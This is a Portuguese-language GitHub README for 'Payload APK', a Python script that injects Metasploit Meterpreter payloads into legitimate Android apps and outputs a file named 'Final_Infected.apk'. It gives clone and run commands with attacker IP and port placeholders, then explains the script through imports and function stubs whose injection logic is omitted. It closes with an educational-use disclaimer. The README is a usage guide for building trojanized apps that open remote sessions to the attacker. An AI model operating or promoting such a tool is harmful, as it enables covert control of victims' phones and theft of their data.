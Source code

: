 # Payload APK 
O Payload APK é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload_apk.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload_apk
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

<h1>Explicação</h1>

Esse código é um script Python que automatiza o processo de criação de um APK infectado com um payload Meterpreter para fins educacionais e de pesquisa. Aqui está uma breve explicação de cada parte do código: 

    Importação de Bibliotecas: 

    Pitão 

import os
import subprocess
import argparse
import random
import banner
import shutil

O script faz uso de bibliotecas padrão do Python para realizar várias operações, como manipulação de sistema, subprocessos, análise de argumentos da linha de comando, geração de números aleatórios e manipulação de banners. 

Definição de Cores: 

Pitão 

    BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[94m', '\033[91m', '\33[97m', '\33[93m', '\033[1;35m', '\033[1;32m', '\033[0m'
    
    
São constantes para melhorar a legibilidade da saída colorida do terminal. 

Obtenção de Argumentos da Linha de Comando:

Pitão 

        def obter_argumentos():
    # ...
    
O script usa a biblioteca  argparse para analisar e obter os argumentos passados pela linha de comando.

Verificação de Dependências: 

Pitão 

        def verificar_dependencias(dependencia, nome):
    # ...
def verificar_dependencias_e_atualizacoes():
    # ...
    
Essas funções verificam se as dependências necessárias, como  apktool,  jarsigner,  apksigner e  zipalign, estão instaladas no sistema. Se não estiverem, o script oferece a opção de instalá-las. 

Função Principal ( main): 

Pitão 

        def main():
        arguments = obter_argumentos()  
        # ...
            
    A função principal do script onde todo o processo é coordenado. Ele obtém os argumentos da linha de comando, gera variáveis aleatórias, verifica dependências, gera um payload Meterpreter, realiza a descompilação do APK original, faz modificações, compila o APK infectado, assina e ajusta o alinhamento do APK.

O código é bastante extenso, e detalhes específicos de cada função foram omitidos aqui. Se você tiver dúvidas sobre partes específicas ou quiser uma explicação mais detalhada de alguma seção, por favor, sinta-se à vontade para pergunta 


## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

